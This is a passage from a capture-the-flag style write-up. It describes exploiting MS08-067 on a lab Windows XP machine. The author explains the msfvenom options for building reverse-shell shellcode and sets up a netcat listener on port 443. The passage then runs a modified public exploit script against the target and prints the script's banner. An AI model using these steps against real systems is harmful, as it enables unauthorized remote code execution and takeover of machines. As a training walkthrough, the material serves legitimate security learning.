 Where:
- `-p` specifies the payload I want to use
- `LHOST` and `LPORT` are the IP address assigned to my machine
- `EXITFUNC` appears to be an important option here, as stated in the exploit code
- `-b` specifies the bad characters for the payload
- `-f` specifies the output, in this case it will be `C`
- `-a` specifies the system architecture
- `-v` specifies the variable that will store the payload

At this point I have to edit the exploit file including my own payload and set up a listener on port 443.
The exploit requires that I know the version of Windows and the Language Pack. Apparently the exploit takes advantage of knowing where some little bits of code will be in memory, and uses those bits on the path to shell. For different version of Windows, the addresses of those gadgets will be different.

From the initial scan result I know that the system is running a **Windows XP version**. So I will start with target 6 first (Win XP SP3 English), and if that fails, I'll try others.

Let's run the exploit: (I have already set up a netcat listener on port 443)

{{< highlight html >}}
python exploit.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################


$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .
